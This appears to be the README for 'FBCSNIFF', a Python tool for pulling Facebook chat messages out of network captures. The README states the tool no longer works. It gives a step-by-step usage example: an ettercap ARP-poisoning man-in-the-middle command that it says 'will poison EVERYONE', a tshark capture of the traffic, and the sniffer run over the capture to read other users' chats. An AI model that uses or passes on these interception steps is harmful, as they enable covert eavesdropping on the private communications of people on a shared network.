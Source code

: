 # FBCSNIFF: Facebook Chat Sniffer

> Extract facebook chat messages from a pcap file

## THIS DOES NOT WORK ANYMORE!

### Deps:

``` sh
$ sudo apt-get install python-dpkt
```

### Options:

```
usage: python fbcsniff.py [OPTIONS] -c <pcap file>

-c <pcap file>
-f <msg filter> (comma separated)
-s <sleep time> (use with -l)
-o <output file>
-l (keep looking for new messages)
-h (show this message)
```

### Usage Example:

I'm using ettercap and tshark

``` sh
$ sudo apt-get install ettercap tshark
```

Start a MITM attach using ettercap **(this will poison EVERYONE!)**:

``` sh
$ sudo ettercap -T -M arp -i <your interface> // // -p auto_add
```

Start tshark capture:

``` sh
$ sudo -i
$ tshark -i <your interface> -w /tmp/capture.pcap
```

Start pulling messages out of the capture file:

``` sh
$ sudo ./fbcsniff.py -l -c /tmp/capture.pcap
```


